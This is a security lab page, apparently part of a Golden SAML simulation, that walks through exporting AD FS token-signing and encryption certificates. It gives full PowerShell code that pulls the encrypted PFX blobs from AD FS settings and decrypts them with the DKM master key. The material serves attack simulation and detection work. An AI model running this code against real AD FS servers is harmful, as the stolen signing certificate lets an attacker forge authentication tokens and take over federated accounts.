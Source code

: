 # Export AD FS Certificates via DKM Master Key

A threat actor could use the `AD FS configuration settings` to extract sensitive information such as AD FS certificates (encrypted) and get the path to the AD FS DKM container in the domain controller. The `AD FS DKM master key` can then be retrieved from the AD container and used to decrypt AD FS certificate.

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Output](#output)
* [References](#references)

## Preconditions

* Input:
    * AD FS Configuration Settings
    * AD FS DKM Master Key

## Simulation Steps

### Extract AD FS Token Signing Certificate

```PowerShell
[xml]$xml=$settings
$encTokenSigningPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalSigningTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encTokenSigningPfx)
$encPfxBytes | Format-Hex
```

![](../../../../images/labs/GoldemSAML/exportADFSTokenSigningCertificate/2021-05-19_12_adfs_get_encrypted_token_signing_cert.png)

### Extract AD FS Encryption Certificate

```PowerShell
[xml]$xml=$settings
$encEncryptionPfx=$xml.ServiceSettingsData.SecurityTokenService.AdditionalEncryptionTokens.CertificateReference.EncryptedPfx
$encPfxBytes=[System.Convert]::FromBase64String($encEncryptionPfx)
$encPfxBytes | Format-Hex
```

![](../../../../images/labs/GoldemSAML/exportADFSTokenSigningCertificate/2021-05-19_12_adfs_get_encrypted_encryption_cert.png)


### Decrypt Certificates

```PowerShell
$key = '<ADFS-DKM-KEY>'

$certs = [ordered]@{}
$certs["signing"] =    $encTokenSigningPfx
$certs["encryption"] = $encEncryptionPfx

# Iterate over certificate objets
foreach ($certType in $certs.Keys) {
    $encPfxBytes=[System.Convert]::FromBase64String($certs[$certType])
    $guid=        $encPfxBytes[8..25]  # 18 bytes
    $KDF_oid=     $encPfxBytes[26..36] # 11 bytes
    $MAC_oid=     $encPfxBytes[37..47] # 11 byte
    $enc_oid=     $encPfxBytes[48..58] # 11 bytes
    $nonce=       $encPfxBytes[59..92] # 34 bytes
    $iv=          $encPfxBytes[93..110] # 18 bytes
    $ciphertext = $encPfxBytes[115..$($encPfxBytes.Length-33)]
    $cipherMAC =  $encPfxBytes[$($encPfxBytes.Length-32)..$($encPfxBytes.Length)]

    # Create the label
    $label = $enc_oid + $MAC_oid

    # Derive the decryption key using (almost) standard NIST SP 800-108. The last bit array should be the size of the key in bits, but MS is using bytes (?)
    # As the key size is only 16 bytes (128 bits), no need to loop.
    $hmac = New-Object System.Security.Cryptography.HMACSHA256 -ArgumentList @(,$key)
    $hmacOutput = $hmac.ComputeHash( @(0x00,0x00,0x00,0x01) + $label + @(0x00) + $nonce[2..33] + @(0x00,0x00,0x00,0x30) )
    $decryptionKey = $hmacOutput[0..15]
    Write-Verbose "Decryption key:"
    Write-Verbose "$($decryptionKey|Format-Hex)"
    # Create a decryptor and decrypt
    $Crypto = [System.Security.Cryptography.SymmetricAlgorithm]::Create("AES")
    $Crypto.Mode="CBC"
    $Crypto.KeySize = 128
    $Crypto.BlockSize = 128
    $Crypto.Padding = "None"
    $Crypto.Key = $decryptionKey
    $Crypto.IV = $iv[2..17]
    $decryptor = $Crypto.CreateDecryptor()

    # Create a memory stream and write the cipher text to it through CryptoStream
    $ms = New-Object System.IO.MemoryStream
    $cs = New-Object System.Security.Cryptography.CryptoStream($ms,$decryptor,[System.Security.Cryptography.CryptoStreamMode]::Write)
    $cs.Write($ciphertext,0,$ciphertext.Count)
    $cs.Close()
    $cs.Dispose()

    # Get the results
    $decryptedBytes = $ms.ToArray()
    $ms.Close()
    $ms.Dispose()

    $CertificatePath = "C:\ProgramData\ADFS_$($certType)_$(get-date -format yyyy-MM-ddTHHmmssff).pfx"
    $decryptedBytes | Set-Content $CertificatePath -Encoding Byte

    Get-item $CertificatePath
}
```

## Output

* AD FS Encryption Certificate
* AD FS Token Signing Certificate

## References

* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)
* [Token-Signing Certificates | Microsoft Docs](https://docs.microsoft.com/en-us/windows-server/identity/ad-fs/design/token-signing-certificates#:~:text=%20A%20token-signing%20certificate%20must%20meet%20the%20following,in%20the%20personal%20store%20of%20the...%20More%20)